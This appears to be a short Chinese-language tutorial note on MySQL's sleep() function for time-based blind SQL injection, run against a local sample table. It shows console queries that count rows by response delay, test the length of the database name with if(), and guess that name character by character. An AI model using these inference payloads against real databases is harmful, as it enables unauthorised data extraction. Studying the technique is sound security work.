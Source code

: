 # SLEEP

sleep函数括号里的内容就是时间

```
mysql> select sleep(1);
+----------+
| sleep(1) |
+----------+
|        0 |
+----------+
1 row in set (1.00 sec)
```

**判断当前表行数**

```
mysql> select * from vorname where Vorname = sleep(1);
+---------+------------+-----+
| Vorname | Nachname   | Alt |
+---------+------------+-----+
| Lina    | Schneider  |  22 |
| Lara    | Zhang      |  20 |
| Patric  | Wang       |  23 |
| Tobias  | Alexandria |  22 |
+---------+------------+-----+
4 rows in set, 4 warnings (4.00 sec)
```

**判断数据库位数**

把sleep放到if里

```
mysql> select if(length(database())=4,sleep(2),null)a;
+------+
| a    |
+------+
|    0 |
+------+
1 row in set (2.00 sec)
```

**逐位猜解数据库名**

把if放到sleep里

```
mysql> select sleep(if(left(database(),1)='t',1,0))a;
+---+
| a |
+---+
| 0 |
+---+
1 row in set (1.00 sec)
```
